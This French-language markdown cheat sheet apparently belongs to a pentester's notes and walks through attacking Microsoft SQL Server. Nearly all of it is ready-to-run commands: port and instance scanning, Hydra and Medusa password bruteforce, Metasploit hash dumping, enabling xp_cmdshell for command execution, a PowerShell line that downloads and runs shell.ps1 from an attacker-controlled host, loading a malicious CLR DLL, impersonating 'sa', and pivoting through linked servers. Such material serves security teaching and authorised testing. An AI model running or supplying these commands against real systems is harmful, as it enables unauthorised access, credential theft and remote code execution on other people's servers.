

## Détection des serveurs

Le service **MSSQL** opère par défaut sur le port 1433 (TCP).

### Scanner le port 1433 avec Nmap

```bash
nmap -p 1433 --script=ms-sql-info target.com
```

> [!warning] Prérequis
> S'assurer de la connectivité réseau et de l'absence de WAF/IPS avant les scans agressifs.

## Énumération des instances

Un serveur **MSSQL** peut héberger plusieurs instances distinctes.

### Scanner les instances avec Nmap

```bash
nmap -p 1433 --script=ms-sql-enum target.com
```

### Lister les instances avec Metasploit

```bash
use auxiliary/scanner/mssql/mssql_ping
set RHOSTS target.com
run
```

## Bruteforce

> [!danger] Risque
> Le bruteforce peut déclencher des alertes de verrouillage de compte (Account Lockout) dans un environnement **Active Directory**.

### Avec Hydra

```bash
hydra -L users.txt -P passwords.txt target.com mssql
```

### Avec Medusa

```bash
medusa -h target.com -U users.txt -P passwords.txt -M mssql
```

## Énumération des utilisateurs

### Lister les utilisateurs avec SQLCMD

```sql
SELECT name FROM master.sys.sql_logins;
```

### Lister les permissions des utilisateurs

```sql
SELECT * FROM sys.syslogins;
```

## Énumération des bases de données

### Lister les bases de données

```sql
SELECT name FROM master.dbo.sysdatabases;
```

> [!danger] Danger
> L'exécution de requêtes SQL peut corrompre des données en production si mal manipulée.

## Énumération des tables et colonnes

### Lister les tables d'une base spécifique

```sql
SELECT TABLE_NAME FROM users_db.INFORMATION_SCHEMA.TABLES;
```

### Lister les colonnes d'une table cible

```sql
SELECT COLUMN_NAME FROM users_db.INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users';
```

## Extraction de hashs

### Récupérer les hashs avec Metasploit

```bash
use auxiliary/admin/mssql/mssql_hashdump
set RHOST target.com
set USERNAME sa
set PASSWORD P@ssword123
run
```

## Vérification des privilèges

### Vérifier les privilèges de l'utilisateur

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Configuration de l'accès (xp_cmdshell)

> [!attention] Attention
> L'utilisation de **xp_cmdshell** nécessite des privilèges **sysadmin** et doit être activée manuellement.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Exécution de code arbitraire (RCE)

Une fois **xp_cmdshell** activé, il est possible d'exécuter des commandes système.

```sql
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://<IP>/shell.ps1'')"';
```

## Impersonation d'utilisateurs (EXECUTE AS)

Permet de vérifier si un utilisateur possède des droits d'impersonation pour élever ses privilèges localement.

```sql
SELECT SYSTEM_USER;
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
REVERT;
```

## Escalade de privilèges via CLR assemblies

Si l'option **clr enabled** est activée, un attaquant peut charger une DLL malveillante pour exécuter du code avec les privilèges du service **MSSQL**.

```sql
EXEC sp_configure 'clr enabled', 1;
RECONFIGURE;
-- Chargement de l'assembly depuis un chemin réseau ou hexadécimal
CREATE ASSEMBLY [Exploit] FROM 'C:\temp\exploit.dll' WITH PERMISSION_SET = UNSAFE;
```

## Liaison de serveurs (Linked Servers)

L'énumération des serveurs liés permet de pivoter vers d'autres instances **MSSQL** au sein du réseau.

```sql
-- Lister les serveurs liés
SELECT * FROM sys.servers;

-- Exécuter une requête sur un serveur lié
SELECT * FROM OPENQUERY([REMOTE_SERVER], 'SELECT @@version');
```

## Synthèse des outils d'énumération

| Étape | Outil / Commande |
| :--- | :--- |
| Détection réseau | **nmap** |
| Énumération instances | **nmap**, **metasploit** |
| Bruteforce | **hydra**, **medusa** |
| Interaction SQL | **sqlcmd** |
| Extraction hashs | **metasploit** |

Voir également : **Active Directory Enumeration**, **MSSQL Exploitation**, **Password Cracking**, **Windows Privilege Escalation**.
```